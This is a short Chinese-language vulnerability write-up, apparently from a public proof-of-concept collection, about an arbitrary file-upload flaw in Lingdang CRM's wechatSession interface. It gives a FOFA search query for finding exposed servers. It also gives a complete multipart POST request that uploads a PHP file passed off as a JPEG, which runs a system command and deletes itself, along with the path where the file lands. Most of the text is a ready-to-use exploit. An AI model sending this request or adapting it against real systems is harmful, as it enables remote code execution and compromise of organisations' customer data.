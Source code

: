 # 灵当CRM系统接口wechatSession文件上传漏洞

灵当CRM系统接口wechatSession文件上传漏洞，允许攻击者上传恶意文件到服务器，可能导致远程代码执行、网站篡改或其他形式的攻击，严重威胁系统和数据安全。

## fofa

```javascript
body="crmcommon/js/jquery/jquery-1.10.1.min.js" || (body="http://localhost:8088/crm/index.php" && body="ldcrm.base.js")
```

## poc

```javascript
POST /crm/wechatSession/index.php?token=9b06a9617174f1085ddcfb4ccdb6837f&msgid=1&operation=upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary03rNBzFMIytvpWhy

------WebKitFormBoundary03rNBzFMIytvpWhy
Content-Disposition: form-data; name="file"; filename="2.php"
Content-Type: image/jpeg

<?php system("whoami");unlink(__FILE__);?>
------WebKitFormBoundary03rNBzFMIytvpWhy--
```

![image-20241018155224218](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410181552292.png)

文件路径`/crm/storage/wechatsession/2024/10/14/2.php`